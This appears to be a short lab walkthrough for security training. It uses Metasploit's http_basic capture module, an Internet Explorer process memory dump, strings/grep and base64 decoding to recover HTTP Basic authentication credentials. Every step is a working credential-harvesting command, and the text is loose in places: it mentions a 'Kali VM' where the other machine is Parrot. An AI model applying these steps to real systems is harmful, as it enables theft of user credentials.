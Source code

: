 Parrot
1.Open command prompt and type: **msfconsole**  
2.In Metasploit (msf > prompt) type: **use auxiliary/server/capture/http_basic**  
3.In Metasploit (msf > prompt) type: **set uripath x**  
4.In Metasploit (msf > prompt) type: **run**

Windows VM
1.Open Internet Explorer and browse to: HTTP://IP/X 
2.Open command prompt and type: **taskmgr**  
3.In Windows Task Manager, right-click on the “iexplore.exe” in the “Image Name” columnand select “Create Dump File” from the popup menu.  
4.Copy the generated file, iexplore.DMP, to the Kali VM.

Parrot
1.Place ‘iexplore.DMP’ on the desktop.  
2.Open command prompt and type: **strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"  
**3.Select the Copy the Base64 encoded string.  
4.In command prompt type: **echo -ne BASE64_STRING | base64 -d**  
5.Notice the credentials in the output.
